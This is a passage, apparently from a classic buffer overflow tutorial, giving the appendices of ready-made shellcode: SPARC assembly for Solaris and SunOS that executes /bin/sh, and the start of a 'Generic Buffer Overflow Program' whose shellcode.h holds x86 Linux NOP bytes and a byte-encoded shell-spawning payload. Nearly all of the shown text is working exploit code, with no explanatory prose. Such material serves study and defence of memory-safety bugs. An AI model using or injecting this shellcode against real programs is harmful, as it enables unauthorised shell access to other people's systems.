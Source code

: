         .string \"/bin/sh\"
------------------------------------------------------------------------------

SPARC/Solaris
------------------------------------------------------------------------------
        sethi   0xbd89a, %l6
        or      %l6, 0x16e, %l6
        sethi   0xbdcda, %l7
        and     %sp, %sp, %o0
        add     %sp, 8, %o1
        xor     %o2, %o2, %o2
        add     %sp, 16, %sp
        std     %l6, [%sp - 16]
        st      %sp, [%sp - 8]
        st      %g0, [%sp - 4]
        mov     0x3b, %g1
        ta      8
        xor     %o7, %o7, %o0
        mov     1, %g1
        ta      8
------------------------------------------------------------------------------

SPARC/SunOS
------------------------------------------------------------------------------
        sethi   0xbd89a, %l6
        or      %l6, 0x16e, %l6
        sethi   0xbdcda, %l7
        and     %sp, %sp, %o0
        add     %sp, 8, %o1
        xor     %o2, %o2, %o2
        add     %sp, 16, %sp
        std     %l6, [%sp - 16]
        st      %sp, [%sp - 8]
        st      %g0, [%sp - 4]
        mov     0x3b, %g1
	mov	-0x1, %l5
        ta      %l5 + 1
        xor     %o7, %o7, %o0
        mov     1, %g1
        ta      %l5 + 1
------------------------------------------------------------------------------


                 Appendix B - Generic Buffer Overflow Program
                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

shellcode.h
------------------------------------------------------------------------------
#if defined(__i386__) && defined(__linux__)

#define NOP_SIZE	1
char nop[] = "\x90";
char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

